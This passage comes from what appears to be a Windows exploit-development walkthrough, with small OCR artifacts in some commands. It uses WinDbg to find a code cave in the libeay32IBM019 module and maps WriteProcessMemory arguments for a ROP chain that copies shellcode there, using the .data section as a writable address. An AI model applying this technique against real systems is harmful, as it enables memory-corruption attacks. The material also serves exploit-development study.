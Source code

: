 in WinDbg, you can subtract it directly.

```shell
> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000
```

the region between `0x03282c00` and `0x03283000` is a null-padded region. 

```shell
>? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00
```

this shows that the code cave starts at offset `0x92c00` into the module (we'll use the offset `0x92c04` instead, to avoid all the potential null-byte issues during exploitation).

### using the `.data` section

we can view the `WriteProcessMemory` structure slightly differently now.

```c
BOOL WriteProcessMemory(
    HANDLE hProcess,              // -1 (0xFFFFFFFF) - pseudohandle
    LPVOID lpBaseAddress,        // dllBase + 0x92c04 (code cave)
    LPCVOID lpBuffer,            // stack address (needs ROP)
    SIZE_T nSize,                // shellcode size (needs ROP)
    SIZE_T *lpNumberOfBytesWritten // dllBase + 0xe401c (data section)
);
```

the reason we're going with the `.data` section over the stack is because it will have a predictable location. it's also going to be writable, plus no runtime address calculation is needed. the bonus is that it should survive process restarts.

```shell
> !d h - a libeay32IBM019
File Type: DLL
FILE HEADER VALUES
14C machine (i386)
6 number of sections

0 file pointer to symbol table
0 number of symbols
E0 size of optional header
2102 characteristics
Executable
32 bit word machine
DLL

SECTION HEADER #4
. data name
F018 virtual size
D5000 virtual address
CA00 size of raw data
D2000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
C0000040 flags
```